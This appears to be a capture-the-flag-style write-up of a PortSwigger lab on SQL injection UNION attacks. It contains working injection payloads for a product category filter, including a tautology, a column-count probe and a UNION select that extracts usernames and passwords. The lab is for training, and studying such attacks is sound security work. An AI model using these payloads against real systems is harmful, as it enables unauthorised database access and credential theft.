 
# SQL injection UNION attack, retrieving data from other tables

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

---------------------------------------------

We see there are 2 values displayed in the table, the description and the content of the post:




![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20data%20from%20other%20tables/1.png)


We find these payload are valid to display the 4 posts in Gifts and the second all the items:

```
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
```

Also, that there are 2 columns returned by the query and we can do a UNION attack with:

```
/filter?category=Gifts'+union+all+select+NULL,NULL--
```



![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20data%20from%20other%20tables/2.png)


Knowing the table and database names we can retrieve the content from users using the payload:

```
/filter?category=Gifts'+union+all+select+username,password+from+users--
```



![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20data%20from%20other%20tables/3.png)